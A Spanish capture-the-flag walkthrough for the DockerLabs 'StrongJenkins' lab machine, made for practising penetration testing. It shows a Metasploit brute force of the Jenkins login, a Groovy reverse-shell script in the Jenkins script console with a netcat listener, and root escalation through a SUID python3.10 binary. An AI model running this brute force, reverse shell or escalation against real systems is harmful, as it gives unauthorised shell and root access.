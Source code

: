 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# StrongJenkins DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip strongjenkins.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh strongjenkins.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 09:41 EST
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.70 seconds
```

Si entramos en la pagina web por el puerto `8080` veremos un `Jenkins`, vamos a probar las credenciales por defecto pero no tendremos suerte, por lo que vamos a realizar fuerza bruta contra el login con `metasploit` de la siguiente forma:

## jenkins\_login Exploit

```shell
msfconsole -q
```

Ahora accederemos al modulo de la siguiente forma:

```shell
use scanner/http/jenkins_login
```

Ahora tendremos que configurarlo:

```shell
set RHOSTS <IP>
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
exploit
```

Info:

```
[!] No active DB -- Credential data will not be saved!
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:12345 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456789 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:password (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:iloveyou (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:princess (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:1234567 (Incorrect)
[+] 172.17.0.2:8080 - Login Successful: admin:rockyou
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
```

Veremos que hemos encontrado las credenciales, por lo que nos loguearemos con dichas credenciales.

## Escalate user jenkins

```
User: admin
Pass: rockyou
```

Dentro del `jenkins` nos iremos a la pestaña de `Manage Jenkins` y veremos abajo del todo este apartado:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Entraremos dentro de el y veremos como un recuadro donde meter un script para ejecutar:

```bash
String host="<IP>";
int port=<PORT>;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Pero antes de ejecutar nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si lo ejecutaremos, por lo que pulsaremos a `run` y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 49766
whoami
jenkins
```

Veremos que somos el usuario `jenkins` por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2405051     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
  2275789     36 -rwsr-xr-x   1 root     root        35200 Apr  9  2024 /usr/bin/umount
  2275773     56 -rwsr-xr-x   1 root     root        55680 Apr  9  2024 /usr/bin/su
  2275722     48 -rwsr-xr-x   1 root     root        47488 Apr  9  2024 /usr/bin/mount
  2404926     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
  2404920     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
  2405062     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
  2404988     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
  2528496   5768 -rwsr-xr-x   1 root     root      5904904 Nov 20  2023 /usr/bin/python3.10
  2519472     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Si vemos la siguiente linea:

```
2528496   5768 -rwsr-xr-x  1 root  root  5904904 Nov 20  2023 /usr/bin/python3.10
```

Vemos que podemos ejecutar `python3.10` bajo los privilegios de `root`, por lo que haremos lo siguiente:

```shell
python3.10 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

Info:

```
bash-5.1# whoami
root
```

Si ejecutamos esto veremos que seremos el usuario `root`, por lo que habremos terminado la maquina.
